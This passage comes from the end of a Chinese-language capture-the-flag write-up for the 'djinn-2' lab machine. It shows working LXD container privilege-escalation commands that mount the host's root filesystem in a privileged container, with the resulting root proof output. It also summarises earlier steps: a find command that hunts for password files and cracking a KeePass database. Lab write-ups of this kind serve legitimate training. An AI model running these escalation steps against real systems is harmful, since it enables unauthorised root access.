 4. 查看镜像列表：

   ```shell
   nitish@djinn:/tmp$ lxc image list
   lxc image list
   +---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
   |  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE         |
   +---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
   | myimage | 817a9dd08f4b | no     | alpine v3.14 (20211006_23:26) | x86_64 | 3.10MB | Oct 7, 2021 at 3:28am (UTC) |
   +---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
   ```

5. 创建并进入到容器：

   ```shell
   lxc init myimage ignite -c security.privileged=true
   lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
   lxc start ignite
   lxc exec ignite /bin/sh
   id
   ```

6. 得到 flag：

   ```shell
   /mnt/root/root # /bin/sh proof.sh
   /bin/sh proof.sh
   proof.sh: line 9: figlet: not found
   djinn-2 pwned...
   __________________________________________________________________________
   
   Proof: cHduZWQgZGppbm4tMiBsaWtlIGEgYm9zcwo=
   Path: /mnt/root/root
   Date: Thu Oct 7 03:38:51 UTC 2021
   Whoami: root
   __________________________________________________________________________
   
   By @0xmzfr
   
   Thanks to my fellow teammates in @m0tl3ycr3w for betatesting! :-)
   
   If you enjoyed this then consider donating (https://mzfr.github.io/donate/)
   so I can continue to make these kind of challenges.
   ```

   

### 总结

1. 查找密码文件：`find / -type f -name *passwd* 2>/dev/null`
2. `keepass2` 解密 `kdbx` 文件
3. `lxd` 容器提权
